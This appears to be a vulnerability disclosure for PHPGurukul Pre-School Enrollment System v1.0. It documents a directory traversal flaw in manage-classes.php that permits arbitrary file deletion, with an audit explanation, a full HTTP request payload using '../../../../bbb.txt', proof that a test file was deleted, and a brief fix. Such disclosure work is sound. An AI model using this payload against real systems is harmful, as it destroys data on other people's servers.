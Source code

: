 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2(manage-classes.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with teacherpic in the manage-classes.php file   
   Line 14 gets the teacherpic but does not perform any filtering, and the teacherpic comes from user input
   After being concatenated into tpicpath in line 15, the unlink operation is performed in line 18. This causes the directory traversal vulnerability
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250423150403.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the manage-classes.php page, manage-classes-delete
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/3.png)
  
   Intercept the data packet and find the manage-classes.php?action=delete data packet. No problem parameter teacherpic was found.
   
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/4.png)

   Change the tpic parameter in the data packet to the problematic parameter teacherpic 
   Transformed into attack payload  

    GET /Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php?action=delete&&cid=6&&teacherpic=../../../../bbb.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-Site: same-origin
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Accept-Encoding: gzip, deflate, br, zstd
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Accept-Language: zh-CN,zh;q=0.9
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php
    Sec-Fetch-Dest: document
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"

   Create bbb.txt test file in  D:\phpstudy_pro\WWW
       ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/微信截图_20250423153628.png)   

   Send payload,
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/6.png)
   bbb.txt file has been deleted   
   ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/5.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
